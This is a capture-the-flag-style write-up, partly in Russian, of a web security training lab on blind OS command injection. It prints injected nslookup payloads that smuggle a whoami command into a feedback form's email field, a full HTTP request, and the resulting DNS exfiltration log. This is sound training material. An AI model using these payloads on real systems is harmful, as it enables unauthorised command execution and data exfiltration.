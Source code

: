 # Blind OS command injection with out-of-band data exfiltration
PRACTITIONER

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

## Решение
Для обращения к серверу коллаборатора использовал команду nslookup, для передачи имени пользователя добавил к скопированному из коллаборатора домену команду whoami, заключённую в `$()`:

`email=test%40server.com;nslookup "$(whoami).5u0ccsbrbb0c5mal5dpuzfwxkoqfe82x.oastify.com";`
```
POST /feedback/submit HTTP/2
Host: 0a3a003e035d5cf280ea17be00040078.web-security-academy.net
Cookie: session=L6K83a1qKWSdaYCPS1N12t7RWZUWlWBM
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 162
Origin: https://0a3a003e035d5cf280ea17be00040078.web-security-academy.net
Referer: https://0a3a003e035d5cf280ea17be00040078.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

csrf=919HSKFtg11ZBQbEnVRRqn9qgkgSjS4r&name=test&email=test%40server.com;nslookup "$(whoami).5u0ccsbrbb0c5mal5dpuzfwxkoqfe82x.oastify.com";&subject=foo&message=123
```
Значение поля Description отловленного коллаборатором запроса:
```
The Collaborator server received a DNS lookup of type A for the domain name peter-2O2SYV.5u0ccsbrbb0c5mal5dpuzfwxkoqfe82x.oastify.com.  The lookup was received from IP address 3.251.104.4:44252 at 2024-Apr-14 08:29:34.958 UTC.
```
Отправляю `peter-2O2SYV` в Submit solution. Задание выполнено.

Официальное решение. Команда встраивается в параметр для nslookup через косые кавычки:
```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```